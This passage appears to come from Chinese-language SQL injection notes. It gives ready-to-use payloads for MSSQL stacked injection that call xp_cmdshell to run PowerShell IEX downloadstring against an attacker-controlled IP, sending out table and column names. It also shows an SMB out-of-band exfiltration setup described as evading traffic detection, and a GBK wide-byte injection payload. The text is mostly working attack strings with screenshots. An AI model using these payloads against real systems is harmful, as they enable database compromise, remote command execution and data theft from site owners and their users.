 ##### 获取表名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092208841](./assets/image-20240906092208841-1725772729965-23.png)

##### 获取字段名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092245173](./assets/image-20240906092245173-1725772734023-25.png)

------

##### SMB数据外带

- 默认支持TCP/UDP出网方式时可用,无长度限制和符号限制,规避流量检测设备
- CentOS 7安装SMB服务

```bash
#安装smb服务
yum install samba -y
#修改配置文件
vim /etc/samba/smb.conf
#修改samba日志路径
vim /var/log/samba/log.smba
#利用实时查看日志并匹配结果
tail -f /var/log/samba/log.smbd | grep "failed to find service"
```

------

#### `宽字节注入`

> 使用`gbk`编码,2个字符为一个汉字,第一个字节是`129-254`,第二个字节是`64-254`

```sql
#payload
?id=1%df order by 3 --+
```
